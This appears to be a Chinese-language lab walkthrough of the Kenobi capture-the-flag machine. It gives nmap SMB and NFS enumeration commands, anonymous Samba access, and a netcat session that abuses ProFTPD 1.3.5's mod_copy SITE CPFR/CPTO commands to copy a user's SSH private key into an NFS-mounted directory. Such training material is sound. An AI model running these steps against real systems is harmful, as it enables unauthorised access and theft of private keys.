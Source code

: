 #### user

> Samba是用于linux和unix标准的windows互联网程序套件.它允许最终用户访问和使用公司内联网或互联网上的文件,打印机和其他共享资源.它通常被称为网络文件系统
>
> Samba 基于服务器消息块 (SMB) 的通用客户端/服务器协议。SMB 仅针对 Windows 开发，如果没有 Samba，其他计算机平台将与 Windows 机器隔离，即使它们属于同一网络。

使用nmap为SMB共享枚举

```shell
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.70.225
```

```shell
#以匿名用户连接
smbclient //10.10.70.225/anonymous
#连接后使用dir命令查看共享文件

#递归下载文件，不需要用户名和密码

smbget -R smb://10.10.70.225/anonymous
```

查看log.txt

发现了 `ProFTPD` 服务器信息，版本为1.3.5

> [
> 您应该已经从 ProFtpd 的mod_copy 模块](http://www.proftpd.org/docs/contrib/mod_copy.html)中找到了一个漏洞。 
>
> mod_copy 模块实现了**SITE CPFR**和**SITE CPTO**命令，可用于将文件/目录从服务器上的一个地方复制到另一个地方。任何未经身份验证的客户端都可以利用这些命令将文件从文件系统的任何部分复制 到选定的目的地。

> 您之前的 nmap 端口扫描将显示运行服务 rpcbind 的端口 111。这只是一个将远程过程调用 (RPC) 程序编号转换为通用地址的服务器。当一个 RPC 服务启动时，它告诉 rpcbind 它正在监听的地址和它准备服务的 RPC 程序号。 

> 在我们的例子中，端口 111 用于访问网络文件系统。让我们使用 nmap 来枚举它。
> 
>```shell
> nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.70.225
>```

```
#连接FTP服务器
nc 10.10.70.225 21
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa

```

挂载目录 /var/tmp

```
mkdir /mnt/kenobiNFS
mount 10.10.70.225:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
```
